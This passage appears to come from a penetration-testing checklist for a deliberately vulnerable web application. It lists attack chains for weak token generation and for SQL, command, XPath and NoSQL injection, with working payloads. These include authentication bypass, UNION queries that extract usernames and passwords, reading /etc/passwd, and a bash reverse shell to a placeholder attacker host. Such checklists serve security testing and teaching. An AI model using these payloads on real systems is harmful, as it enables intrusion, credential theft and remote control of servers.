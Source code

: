 - [x] **Weak random number generation**
  - **Path**: Password reset, session tokens
  - **Attack Chain**:
    1. Request multiple password resets
    2. Analyze token patterns
    3. Predict future tokens based on pattern
    4. Reset target user's password
  - **Tool**: Statistical analysis of token patterns

### A03: Injection
- [x] **SQL injection in login form**
  - **Path**: `/login`, `/user/login`
  - **Attack Chain**:
    1. Enter malicious input in login form
    2. Bypass authentication
    3. Extract database information
  - **Payloads**:
    - Authentication bypass: `' OR 1=1 --`
    - Database enumeration: `' UNION SELECT 1,2,3,4,5,6,7 FROM users--`
    - Data extraction: `' UNION SELECT NULL,NULL,username,password,NULL,NULL,NULL FROM users--`

- [x] **SQL injection in product search**
  - **Path**: `/products/search`
  - **Attack Chain**:
    1. Enter malicious input in search field
    2. Extract data from database
    3. Access unauthorized information
  - **Payloads**:
    - Basic test: `'`
    - Database version: `' UNION SELECT 1,2,sqlite_version(),4--`
    - Table enumeration: `' UNION SELECT 1,2,name,4 FROM sqlite_master WHERE type='table'--`

- [x] **Command injection in ping tool**
  - **Path**: `/ping`
  - **Attack Chain**:
    1. Access ping tool
    2. Enter malicious input with command separators
    3. Execute arbitrary OS commands
  - **Payloads**:
    - Command execution: `localhost; id`
    - File access: `localhost; cat /etc/passwd`
    - Reverse shell: `localhost; bash -c 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1'`

- [x] **XPath injection in XML processor**
  - **Path**: `/api/import-xml`
  - **Attack Chain**:
    1. Identify XML processing functionality
    2. Craft malicious XML with XPath injection
    3. Extract information from XML data store
  - **Payload**: `' or '1'='1`

- [x] **NoSQL injection in document queries**
  - **Path**: `/api/search-users`
  - **Attack Chain**:
    1. Identify NoSQL-based functionality
    2. Submit JSON with special operators
    3. Bypass authentication or extract data
  - **Payloads**:
    - Authentication bypass: `{"username": {"$ne": null}, "password": {"$ne": null}}`
    - Data extraction: `{"username": {"$regex": "^adm"}}`
